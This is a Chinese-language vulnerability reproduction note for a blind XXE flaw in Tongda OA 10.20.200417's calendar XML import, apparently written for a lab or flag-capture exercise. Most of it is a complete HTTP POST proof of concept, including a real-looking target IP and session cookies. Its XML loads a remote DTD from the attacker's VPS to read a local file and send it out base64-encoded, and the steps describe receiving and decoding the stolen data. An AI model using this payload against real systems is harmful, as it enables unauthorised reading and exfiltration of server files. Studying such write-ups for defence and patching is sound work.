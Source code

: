 # TONGDA OFFICE Anywhere 10.20.200417-bind XXE

## 漏洞描述

通达 OA 日程安排，日程数据导入处存在XXE漏洞

## 复现步骤

### 步骤1

修改导入的xml文件，无回显读取本地文件；

![](C:\Users\jk\AppData\Roaming\Typora\typora-user-images\image-20200819223610555.png)

远程vps主机创建xxe.dtd，内容如下所示，读取本地的flag.txt文件；

![image-20200819223543927](C:\Users\jk\AppData\Roaming\Typora\typora-user-images\image-20200819223543927.png)

### 步骤2

提交如下poc：

```
POST /general/calendar/in_out/import_xml.php HTTP/1.1
Host: 211.138.191.187:88
Content-Length: 1192
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://211.138.191.187:88
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarym6iluHiJGivtWxrd
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/84.0.4147.125 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://211.138.191.187:88/general/calendar/in_out/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7
Cookie: SID_1=9cdfdedc; SID_4002=fd08b4a7; USER_NAME_COOKIE=%C0%EE%D3%C2; OA_USER_ID=3795; PHPSESSID=r5dr5gthsdma6h40pcplgehen2; SID_3795=50974747
Connection: close

------WebKitFormBoundarym6iluHiJGivtWxrd
Content-Disposition: form-data; name="XML_FILE"; filename="日程.xml"
Content-Type: text/xml

<?xml version="1.0" encoding="gbk"?>
<!DOCTYPE convert [ 
<!ENTITY % remote SYSTEM "http://vps:65531/xxe.dtd">
%remote;%int;%send;
]>
<AFFAIRS>
  <AFFAIR>
    <FLAG>CALENDAR</FLAG>
    <CAL_TIME>2020-08-19 20:00:00</CAL_TIME>
    <END_TIME>2020-08-19 20:30:00</END_TIME>
    <CAL_TYPE></CAL_TYPE>
    <CAL_LEVEL>0</CAL_LEVEL>
    <CONTENT>cyberlab</CONTENT>
    <MANAGER_ID></MANAGER_ID>
  </AFFAIR>
  <AFFAIR>
    <FLAG>CALENDAR</FLAG>
    <CAL_TIME>2020-08-19 16:00:00</CAL_TIME>
    <END_TIME>2020-08-19 16:30:00</END_TIME>
    <CAL_TYPE>1</CAL_TYPE>
    <CAL_LEVEL>0</CAL_LEVEL>
    <CONTENT>11111</CONTENT>
    <MANAGER_ID></MANAGER_ID>
  </AFFAIR>
</AFFAIRS>

------WebKitFormBoundarym6iluHiJGivtWxrd
Content-Disposition: form-data; name="FILE_NAME"

日程.xml
------WebKitFormBoundarym6iluHiJGivtWxrd
Content-Disposition: form-data; name="FROM_OUTLOOK_OA"

2
------WebKitFormBoundarym6iluHiJGivtWxrd
Content-Disposition: form-data; name="CAL_AFF_TASK"

1
------WebKitFormBoundarym6iluHiJGivtWxrd--

```



### 步骤3

远程主机收到请求：

![image-20200819223622585](C:\Users\jk\AppData\Roaming\Typora\typora-user-images\image-20200819223622585.png)

监听端口收到了读取的本地文件内容，内容经过base64编码如下所示：

![image-20200819223635939](C:\Users\jk\AppData\Roaming\Typora\typora-user-images\image-20200819223635939.png)


Base64解码，得到文件内容：

![image-20200819223642616](C:\Users\jk\AppData\Roaming\Typora\typora-user-images\image-20200819223642616.png)

